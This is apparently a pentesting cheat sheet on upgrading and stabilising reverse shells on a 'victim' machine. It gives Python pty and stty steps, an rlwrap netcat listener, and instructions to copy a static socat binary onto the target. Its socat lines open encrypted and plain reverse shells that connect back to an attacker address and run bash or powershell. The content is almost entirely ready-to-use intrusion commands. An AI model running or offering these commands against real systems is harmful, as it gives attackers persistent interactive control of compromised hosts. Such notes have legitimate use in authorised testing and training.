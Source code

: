      
  
**PYTHON METHOD**  
1) python -c 'import pty; pty.spawn("/bin/bash")'  
2) export TERM=xterm  
3) CTRL + Z to background the shell  
4) stty raw -echo; fg  
  
Type ‘reset’ when finished or if shell dies  
  
  
  
  
**If there are wrapping rows/colums issue**  
  
1) stty -a (on own machine)  
2) stty rows <rows> columsn <columns> (on victim shell)  
  
  
  
**RLWRAP METHOD** (useful for Windows shells)  
  
1) rlwrap nc -lvnp <port>  
\*OPTIONAL FOR LINUX\*  
2) CTRL+Z  
3) stty raw -echo; fg  
  
  
  
  
**SOCAT METHOD** (Linux only)  
1) transfer socat static compiled banary to target ([https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86\_64/socat?raw=true](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true))  
2) socat listener: _``socat TCP-L:<port> FILE:`tty`,raw,echo=0``_3) connect back  
Windows: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`  
Linux: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`  
  
  
SHELL=/bin/bash script -q /dev/null  
/bin/sh -i  
  
  
  
  
socat OPENSSL-LISTEN:<port>,cert=encrypt.pem,verify=0 ``FILE:`tty`,raw,echo=0``  
  
`socat OPENSSL:10.10.10.5:<port>,verify=0` EXEC:"bash -li",pty,stderr,sigint,setsid,sane